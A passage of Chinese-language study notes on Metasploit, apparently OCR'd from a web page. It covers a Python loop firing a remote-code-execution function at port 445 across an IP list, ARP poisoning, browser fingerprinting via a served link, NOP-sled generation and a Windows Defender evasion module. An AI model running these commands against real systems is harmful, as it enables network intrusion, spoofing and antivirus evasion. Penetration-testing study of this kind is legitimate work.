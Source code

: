 对开放端口的服务器做exp
ep读文件:
```python
ips = open(args.ip)
for ip in ips.readlines():
	try:
		do_rce(ip.strip(),445)
	except:
		pass
```

#### 辅助模块

辅助模块auxiliary，辅助模块的使用方式和exploit很相似需要setting，他有sql注入,1day,voip等等，辅助模块具有check的意义，在1day下，他并不会攻击仅利用poc进行扫描

```
msf6> use auxiliary/spoof/arp_poisoning
>show options
>set SHOSTS
```

show auxiliary

ep收集信息:
```
use auxiliary/gather/browser_info
>show options
>set srvhost kaliip
>set srvport 80
>run

using url: http://kaliip:80/zqsasd
started.
```

其他浏览器打开这个连接可收集这个信息


汇编中的滑块指令
show nops
ep:
```
use nop/x86/single_byte
show advanced
generate 20
buf=
"\x99\x4f.....\x41\x97"
```


#### 混淆模块
encoders具有非常多的编码形式，可以编码代码或者文件

还有一个evasion模快比如：
evasion/windows/windows_defender_exe
```
msf6>show evasion
>info evasion/windows/windows_defender_exe
```
